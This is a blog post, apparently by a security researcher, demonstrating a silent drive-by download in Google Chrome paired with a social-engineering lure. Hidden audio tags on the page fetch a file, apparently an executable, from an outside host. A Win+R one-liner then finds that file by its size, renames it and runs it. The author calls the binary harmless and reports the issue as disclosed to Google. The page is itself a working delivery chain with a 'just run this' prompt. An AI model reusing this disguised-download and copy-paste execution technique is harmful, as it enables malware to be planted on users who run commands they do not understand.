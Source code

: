 ```yaml
---
layout: post
title: Don't run commands you don't understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome (rather similar to CVE-2011-0611, but without the automatic execution part), as well as some social engineering magic: a PoC binary will execute if the below seemingly harmless command line is entered in a **Win+R** prompt on a Windows system. Note that you may need to wait for a few seconds before the fun starts.

<div style= "padding: 2px 4px;  background-color: #de9393; padding-top: 9px ; border: 1px solid #ccc; display:table">
<div style= "padding: 2px 4px;  background-color: #de9393;  width:720px ; display:inline-block;">

<B>Keep safe!</B> To avoid unnecessary risk, only try this in a temporary VM.
</div>
</div>

**Just run this and be surprised:**

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

<IMG src=https://i.imgur.com/jgmi7XN.png>

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC binary is a 100% harmless demo  
  * The chiptune in the PoC is (c) 1987 Jozz
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
